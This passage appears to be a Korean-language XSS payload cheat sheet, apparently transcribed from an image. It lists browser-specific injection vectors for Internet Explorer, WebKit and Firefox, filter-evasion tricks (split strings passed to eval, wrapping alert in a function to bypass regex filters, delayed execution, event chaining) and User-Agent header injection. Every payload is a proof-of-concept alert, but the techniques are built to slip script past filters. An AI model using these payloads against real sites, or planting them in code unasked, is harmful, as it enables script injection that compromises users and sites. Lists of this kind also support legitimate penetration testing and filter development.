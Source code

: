 #### 3.7.1. Internet Explorer 전용
```html
<img src=x onerror=alert('XSS') style=x:expression(alert('XSS'))>
<xml onreadystatechange=alert('XSS')>
<bgsound src=javascript:alert('XSS')>
```

#### 3.7.2. Chrome/Safari/WebKit
```html
<audio src=x onerror=alert('XSS')>
<video src=x onerror=alert('XSS')>
<source src=x onerror=alert('XSS')>
```

#### 3.7.3. Firefox 전용
```html
<keygen onfocus=alert('XSS') autofocus>
<spacer onmouseover=alert('XSS')>
```

### 3.8. 고급 회피 기법

#### 3.8.1. JSON 기반 우회
```html
<script>eval('al'+'ert(JSON.parse(\'["XSS"]\')[0])')</script>
<img src=x onerror="eval('al'+'ert(JSON.stringify(`XSS`).slice(1,-1))')">
```

#### 3.8.2. 정규식 우회
```html
<img src=x onerror="(()=>{return alert})()('XSS')">
<svg onload="(function(){return alert})()('XSS')">
```

#### 3.8.3. 시간 지연 실행
```html
<img src=x onerror="setTimeout('alert(\"XSS\")',1000)">
<svg onload="setInterval('alert(\"XSS\")',3000)">
```

#### 3.8.4. 이벤트 체이닝
```html
<input onfocus="this.onblur=function(){alert('XSS')}" onblur="this.onfocus=null" autofocus tabindex=1>
```

### 3.9. HTTP 헤더 기반 XSS

#### 3.9.1. User-Agent 헤더
```
User-Agent: <script>alert('XSS')</script>
User-Agent: "><script>alert('XSS')</script>
```
